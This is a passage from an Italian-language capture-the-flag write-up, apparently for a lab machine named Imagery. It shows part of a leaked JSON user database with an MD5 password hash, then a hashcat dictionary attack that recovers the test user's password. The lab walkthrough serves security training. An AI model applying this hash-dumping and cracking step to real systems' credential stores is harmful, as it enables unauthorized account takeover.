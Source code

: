 ```bash
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
            "isAdmin": false,
            "displayId": "e5f6g7h8",
            "login_attempts": 0,
            "isTestuser": true,
            "failed_login_attempts": 0,
            "locked_until": null
        }
    ],
    "images": [],
    "image_collections": [
        {
            "name": "My Images"
        },
        {
            "name": "Unsorted"
        },
        {
            "name": "Converted"
        },
        {
            "name": "Transformed"
        }
    ],
    "bug_reports": []
}

```

Nel file sono presenti le credenziali di **admin** e **testuser**.

## Crack The Passwords

Si tenta il cracking del valore di hash delle passwords, calcolato con MD5. 

```bash

$ hashcat -a 0 -m 0 pass.md5 /usr/share/wordlists/rockyou.txt.gz --show
2c65c8d7bfbca32a3ed42596192384f6:iambatman

```

Si ottengono le credenziali **testuser:iambatman**.
